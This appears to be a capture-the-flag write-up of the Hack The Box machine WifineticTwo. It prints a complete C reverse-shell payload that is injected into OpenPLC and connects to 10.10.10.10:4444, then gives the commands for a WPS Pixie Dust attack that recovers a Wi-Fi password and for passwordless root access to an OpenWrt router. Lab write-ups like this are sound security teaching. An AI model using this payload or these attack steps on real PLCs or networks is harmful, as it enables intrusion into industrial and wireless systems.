



# WifineticTwo


WifineticTwo is a medium Linux HTB machine that starts with OpenPLC code execution, then pivots through a wireless network using a Pixie Dust attack against WPS, and ends with access to an OpenWrt router as root.

## Reconnaissance

I started with an Nmap scan of the target.

```bash
nmap -sC -sV -oA nmap/output 10.129.210.186
```

The scan showed SSH and HTTP:

```text
22/tcp    open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
8080/tcp  open     http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.129.210.186:8080/login
```

I focused on the web app first.



## Initial Access

Browsing to the HTTP service redirected to an OpenPLC login page. Default credentials worked:

```text
openplc:openplc
```



After login, the dashboard showed the PLC status as `Stopped` and only the default blank program. No other users or interesting programs were present.

A public PoC existed for this OpenPLC version. The exploit injects C code into the hardware layer and uses that to get a reverse shell when the PLC program runs.

The injected code looked like this:

```c
#include "ladder.h"
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

void initCustomLayer()
{
}

void updateCustomIn()
{
}

void updateCustomOut()
{
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```



The upload failed to compile because of a missing file, but that was not necessary. I simply reloaded the default blank program and started the PLC from the dashboard. That triggered the injected hardware layer and gave me a root shell in the container.

```text
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

The hostname was `attica01`, and the network layout suggested this was a container rather than the actual host. The presence of a `wlan0` interface was unusual.

```bash
ip a
```

```text
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 ...
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host

2: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 ...
    inet 10.0.3.2/24 brd 10.0.3.255 scope global eth0
    inet 10.0.3.52/24 metric 100 brd 10.0.3.255 scope global secondary dynamic eth0
    inet6 fe80::216:3eff:fefc:910c/64 scope link

5: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 ...
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
```

I scanned the wireless interface for nearby networks.

```bash
iw dev wlan0 scan
```

The scan showed one access point:

```text
SSID: plcrouter
WPS:     * Version: 1.0
         * WPS State: 2 (Configured)
         * Response Type: 3 (AP)
         * Config methods: Label, Display, Keypad
```

Since WPS was enabled, I used a Pixie Dust attack with OneShot to recover the PIN and WPA password.

```bash
python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00
```

The tool recovered the credentials:

```text
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```

I created a Wi-Fi configuration and connected to the access point.

```bash
wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config
wpa_supplicant -B -c config -i wlan0
```

Then I requested a DHCP lease:

```bash
dhclient -1 -v -sf /bin/true wlan0
```

The router assigned an address:

```text
DHCPOFFER of 192.168.1.46 from 192.168.1.1
DHCPACK of 192.168.1.46 from 192.168.1.1
bound to 192.168.1.46 -- renewal in 19949 seconds.
```

I assigned a local address on the subnet:

```bash
ip addr add 192.168.1.8/24 dev wlan0
```

A quick sweep showed only the router and the current host.

```text
192.168.1.1
192.168.1.8
```

I checked the router for open ports and found:

```text
22
53
80
443
```

SSH to the router worked immediately because there was no root password set.

```bash
ssh 192.168.1.1
```

The login banner confirmed OpenWrt and warned that root had no password:

```text
BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
```

That gave me root access on the router and the second flag.

## Notes

The reverse shell was a bit tricky because the router could only reach the `192.168.1.0/24` subnet and the available tools were very limited, such as `sh` instead of `bash` and `nc` without `-e`. The alternate route was to use the OpenWrt web interface, which also did not require authentication, and schedule commands through cron.

## Attack Path

- Enumerate the host and find OpenPLC on port 8080.
- Log in with default OpenPLC credentials.
- Use the PoC to inject code into the PLC hardware layer.
- Trigger the blank program and get a root shell in the container.
- Discover the `wlan0` interface.
- Scan for wireless networks and find `plcrouter`.
- Abuse WPS with Pixie Dust to recover the WPA PSK.
- Connect to the internal Wi-Fi network.
- SSH into the OpenWrt router with no password.
- Retrieve the second flag.
